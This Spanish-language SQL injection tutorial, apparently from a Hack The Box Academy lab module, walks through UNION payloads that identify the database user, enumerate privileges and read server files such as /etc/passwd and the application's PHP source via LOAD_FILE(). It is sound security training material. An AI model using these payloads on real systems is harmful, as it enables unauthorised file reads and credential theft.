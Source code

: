 Además de recopilar datos de varias tablas y bases de datos dentro del DBMS, una SQL Injection también se puede utilizar para realizar muchas otras operaciones, como leer y escribir archivos en el servidor e incluso obtener ejecución remota de código en el servidor de back-end.

---

## Privileges

Leer datos es mucho más común que escribir datos, lo cual está estrictamente reservado para usuarios privilegiados en los DBMS modernos, ya que puede llevar a la explotación del sistema, como veremos. Por ejemplo, en `MySQL`, el usuario de la base de datos debe tener el privilegio `FILE` para cargar el contenido de un archivo en una tabla y luego volcar datos de esa tabla y leer archivos. Así que, comencemos recopilando datos sobre nuestros privilegios de usuario dentro de la base de datos para decidir si leeremos y/o escribiremos archivos en el servidor de back-end.

### DB User

Primero, debemos determinar qué usuario somos dentro de la base de datos. Aunque no necesariamente necesitamos privilegios de administrador de base de datos (DBA) para leer datos, esto se está volviendo más requerido en los DBMS modernos, ya que solo a los DBA se les otorgan tales privilegios. Lo mismo se aplica a otras bases de datos comunes. Si tenemos privilegios de DBA, entonces es mucho más probable que tengamos privilegios de lectura de archivos. Si no los tenemos, entonces debemos verificar nuestros privilegios para ver qué podemos hacer. Para poder encontrar nuestro usuario actual de la base de datos, podemos usar cualquiera de las siguientes consultas:


```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Nuestra carga útil de inyección `UNION` será la siguiente:


```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

o:

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

Lo que nos dice nuestro usuario actual, que en este caso es `root`:

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/db_user.jpg)

Esto es muy prometedor, ya que un usuario root probablemente sea un DBA, lo que nos otorga muchos privilegios.

### User Privileges

Ahora que sabemos nuestro usuario, podemos comenzar a buscar qué privilegios tenemos con ese usuario. En primer lugar, podemos probar si tenemos privilegios de super administrador con la siguiente consulta:


```sql
SELECT super_priv FROM mysql.user
```

Una vez más, podemos usar la siguiente carga útil con la consulta anterior:


```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si tuviéramos muchos usuarios dentro del DBMS, podemos agregar `WHERE user="root"` para mostrar solo los privilegios de nuestro usuario actual `root`:


```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/root_privs.jpg)

La consulta devuelve `Y`, lo que significa `YES`, indicando privilegios de superusuario. También podemos volcar otros privilegios que tenemos directamente desde el esquema, con la siguiente consulta:


```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Desde aquí, podemos agregar `WHERE grantee="'root'@'localhost'"` para mostrar solo los privilegios de nuestro usuario actual `root`. Nuestra carga útil sería:


```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

Y vemos todos los posibles privilegios otorgados a nuestro usuario actual:

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/root_privs_2.jpg)

Vemos que el privilegio `FILE` está listado para nuestro usuario, permitiéndonos leer archivos e incluso potencialmente escribir archivos. Por lo tanto, podemos proceder con intentar leer archivos.

---

## LOAD_FILE

Ahora que sabemos que tenemos suficientes privilegios para leer archivos del sistema local, hagámoslo usando la función `LOAD_FILE()`. La función [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) puede ser utilizada en MariaDB / MySQL para leer datos de archivos. La función toma solo un argumento, que es el nombre del archivo. La siguiente consulta es un ejemplo de cómo leer el archivo `/etc/passwd`:


```sql
SELECT LOAD_FILE('/etc/passwd');
```

Nota: Solo podremos leer el archivo si el usuario del sistema operativo que ejecuta MySQL tiene suficientes privilegios para leerlo.

Similar a cómo hemos estado usando una inyección `UNION`, podemos usar la consulta anterior:


```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/load_file_sqli.png)

Pudimos leer con éxito el contenido del archivo passwd a través de la SQL injection. Desafortunadamente, esto puede ser utilizado potencialmente para filtrar el código fuente de la aplicación también.

---

## Otro Ejemplo

Sabemos que la página actual es `search.php`. El directorio raíz predeterminado de Apache es `/var/www/html`. Intentemos leer el código fuente del archivo en `/var/www/html/search.php`.


```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

`http://SERVER_IP:PORT/search.php?port_code=cn`

![](https://academy.hackthebox.com/storage/modules/33/load_file_search.png)

Sin embargo, la página termina renderizando el código HTML dentro del navegador. El código fuente HTML se puede ver presionando `[Ctrl + U]`.

![load_file_source](https://academy.hackthebox.com/storage/modules/33/load_file_source.png)

El código fuente nos muestra todo el código PHP, que podría ser inspeccionado más a fondo para encontrar información sensible como credenciales de conexión a la base de datos o encontrar más vulnerabilidades.